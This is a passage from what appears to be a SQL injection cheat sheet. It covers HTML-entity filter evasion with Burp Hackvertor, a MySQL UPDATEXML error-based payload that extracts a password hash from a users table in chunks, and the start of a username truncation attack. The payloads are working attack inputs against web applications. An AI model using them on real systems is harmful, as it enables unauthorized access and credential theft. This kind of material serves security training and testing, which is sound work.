 Reference: [https://portswigger.net/web-security/sql-injection](https://portswigger.net/web-security/sql-injection)

```xml
<storeId>
    <!-- Convert 'S' to HTML entity -->
    1 &#x53;ELECT * FROM information_schema.tables
</storeId>
```

If you use **Burp Suite**, it’s recommended to use the **Hackvertor** extention to obfuscate payloads.  
For example, in **Repeater**, highlight the string which you want to encode. Then right-click and select **Extensions → Hackvertor → Encode → hex_entities**.  
After that, our payload is as below.

```xml
<storeId>
    <@hex_entities>
        1 UNION SELECT * FROM information_schema.tables
    <@/hex_entities>
</storeId>
```

<br /><br />

## XPATH Injection

### MySQL

```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,1,16) FROM users)),null)-- -
```

If the error result appears such like the following, we retrieved the piece of the password hash.

```bash
XPATH syntax error: ':3ac6b24dc611a692'
```

So we can find the remaining of the password hash by injecting below command.

```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,17,32) FROM users)),null)-- -
```

<br /><br />

## Truncation Attack

We can add another user which is the same name as the existing user by registering the same name user with enough “spaces” to truncate a username.  
First off, check the table schema if can.

```sh
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```
